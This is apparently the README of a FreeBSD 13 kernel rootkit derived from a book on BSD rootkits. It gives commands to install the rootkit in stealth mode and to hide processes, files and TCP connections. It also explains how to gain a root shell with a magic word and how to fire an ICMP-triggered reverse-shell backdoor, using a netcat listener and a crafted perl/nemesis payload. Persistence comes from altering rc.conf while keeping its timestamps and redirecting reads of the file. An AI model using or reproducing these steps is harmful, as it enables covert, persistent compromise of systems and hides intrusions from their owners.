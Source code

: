 # kld-rootkit
## A collection of FreeBSD 13 rootkit kernel modules and utilities

**TL;DR ./install_rootkit.sh -s**

This rootkit was developed and tested on FreeBSD 13.0-RELEASE. It is a
collection of kernel modules and utilities derived from the examples in
Joseph Kong's excellent book [DESIGNING BSD ROOTKITS](https://nostarch.com/rootkits.htm), which I highly encourage
anyone with interest in kernel programming to read.

This rootkit provides functionality for process hiding, file hiding, kernel
module hiding, file redirection, on-demand privilege escalation, backdoor
capability, and persistence.

## Kernel Modules

The table below contains the names and descriptions of the kernel modules contained
in this rootkit:
| Kernel Module | Description |
| -------------- | ----------- |
| shdw_sysent_tbl | Lookup table stored in kernel space which contains a mapping of system call numbers and functions that have been hooked. Used to assist with altering and restoring the real sysent table. |
| shdw_lookup | System call to look up syscall numbers in the shadow sysent table. Used to find the syscall numbers that are part of the rootkit. |
| deepbg | System call to hide a running process and it's children. |
| stash | getdirentries system call hook. Used to hide files that have a "magic word" in their filename. |
| knighted | System call to give the calling process root privileges. |
| whisper | System call to hide an open TCP connection. |
| file_redirection | open system call hook. Used to open a file with a "magic word" extension, if it exists, in place of the given filename. |
| order_66 | A backdoor icmp_input hook that is triggered whenever a specially crafted ICMP packet is received. |
| kmalloc | Technically, not part of the rootkit. It is compiled to produce byte code for allocating kernel memory and to demonstrate the run-time kernel memory patching technique from the book. |

## Utilities
The table below contains the names and descriptions of user space tools included in the
rootkit:
| Utility | Description |
| ------- | ----------- |
| interface-lookup | Look up syscall numbers associated with the rootkit's capabilities. |
| knight-me | Uses the knighted system call to drop the user into a rootshell. |
| interface-deepbg | Uses the deepbg system call to hide a running process and it's direct children. |
| interface-whisper | Uses the whisper system call to hide an open TCP connection. |
| loader | Works in conjunction with stash and file_redirection to replace a file with a trojan without altering the file's access and modification times. |
| trigger | Used with the order_66 backdoor and a listener like netcat (nc) to make a reverse shell connection. |

## Miscellaneous
The table below contains the names and descriptions of demonstration programs which are not part of the core rootkit,
but were included as examples of various other techniques from the book:
| Utility | Description |
| ------- | ----------- |
| interface-kmalloc | User space program that demonstrates using modfind to locate the kmalloc syscall and then invokes it allocate kernel memory. |
| kvm-write | User space program that demonstrates using kvm (kernel memory interface) to write to kernel memory. |
| test-kmalloc-patch | User space program which demonstrates run-time kernel memory patching to allocate kernel memory. |

## How to Install

If kernel sources are in a non-standard location (i.e. other than /usr/src/sys)
set the SYSDIR environment variable to the location of the "sys" directory in
your kernel source tree.

Run the "install_rootkit.sh" script located in the top level directory of this repo as root.

Use the "-s" option to install in stealth mode which will avoid printing debug
messages to the system log and will employ the kernel module hiding and
persistence capabilities.

    ./install_rootkit.sh -s

Running the script without the "-s" option will basically install the rootkit
in test mode. Debug messages will be written to the console and system log.
No attempt to hide the kernel modules or achieve persistence will be made.

    ./install_rootkit.sh

An optional argument for the "magic word" can be used as well. This string
is used as a password to activate some features in this rootkit such as the
order_66 backdoor and knighted rootshell. This string can also be used as
part of a file's name to use the file hiding and redirection capabilities.

    ./install_rootkit.sh -s z4xX0n

The default "magic word" is "z4xX0n" and will be used in the rest of the examples in this document.

## How to Use

As part of the installation, rootkit utilities will be built and can be found under the top level directory of this repo, in the bin subdirectory.

### Lookup Syscall Numbers

Use the interface-lookup utility to get the system call numbers of this rootkit. An optional system call number of the shdw_lookup system call can also be passed as an argument.

    $ ./bin/interface-lookup 210
    [-] lookup syscall number   = 210
    [-] deepbg syscall number   = 211
    [-] knighted syscall number = 213
    [-] whisper syscall number  = 212

### Process Hiding

Use the deepbg system call to hide a running process. It takes a PID number as an argument and will hide that process and it's direct children by removing them from the allproc and hash lists.

To test on a process with PID 1234, run:

    ./bin/interface-deepbg 211 1234

### File Hiding

Any file with the "magic word" in its filename will not appear in a directory or wildcard listing. If the file's exact name is given, it will be listed.

### File Redirection

If a file with the "magic word" as it's extension exists, the file with the extension is opened in place of the file without the extension.

    e.g. Opening /tmp/file would actually open /tmp/file.z4xX0n if both of those files existed.

### On-Demand Privilege Escalation

Use the knighted system call with the knight-me utility to gain effective user ID 0.

To test with the default "magic word":

    ./bin/knight-me 213 z4xX0n

### TCP Connection Hiding

Use the whisper system call to hide an open TCP connection. 

To test hiding an ssh connection to the local port 22 from a foreign port 12345:

    ./bin/interface-whisper 212 22 12345

### Backdoor

To trigger the order_66 backdoor icmp_input hook we need to send an ICMP packet that:
 
 1. Is of type ICMP_REDIRECT
 2. Has code ICMP_REDIRECT_TOSHOST
 3. Has the "magic word" at the beginning of it's data buffer
 4. The internet address of a listener
 5. The port that the listener is on
 
netcat (nc) can be used to listen for the inbound connection

For a reverse shell to our target running the order_66 kernel module on *192.168.1.123* start a listener with netcat on *192.168.1.250* and port *5555*

    nc -lnvp 5555

To activate the backdoor from any FreeBSD system, run the trigger program:

    ./bin/trigger 192.168.1.123 192.168.1.250 12345

From the netcat session on the listener (*192.168.1.250*), begin executing commands at the "#" prompt

Alternatively, perl can be used to craft the packet's data buffer and [ nemesis ](https://github.com/libnet/nemesis) can be used to craft the ICMP packet with the necessary type, code, and data payload

#### Example:

From anywhere run:

    echo "z4xX0n" > /tmp/payload
    perl -e 'print "\xfa\x01\xa8\xc0\x15\xb3"' >> /tmp/payload
    nemesis icmp -i 5 -c 3 -P /tmp/payload -D 192.168.1.123

From the netcat session on the listener (*192.168.1.250*), begin executing commands at the "#" prompt

### Persistence

Persistence through reboot is achieved by creating a copy of the */etc/defaults/rc.conf* file. The copy is modified to automatically load the rootkit's kernel modules during system initialization. The *loader* utility is then used to copy the original file to */etc/defaults/rc.conf.z4xX0n* and overwrite the original file with the altered contents without changing the last access or modification times of the file. This way once the kernel modules are loaded, it will look as if the */etc/defaults/rc.conf* file has not been changed. Opening and viewing the *rc.conf* file will redirect to the unaltered original copy with the "magic word" extension.
  
## Disable the Rootkit
  
To disable the rootkit after installing in test mode, run the "kldloadall.sh" script located in the top level directory of this repo with the "-u" option.

    ./kldloadall.sh -u
  
To disable the rootkit after installing in stealth mode, boot into single user mode and run:
  
    zfs set readonly=false zroot
    zfs mount -a
    cp -f /etc/defaults/rc.conf.z4xX0n /etc/defaults/rc.conf
    exit
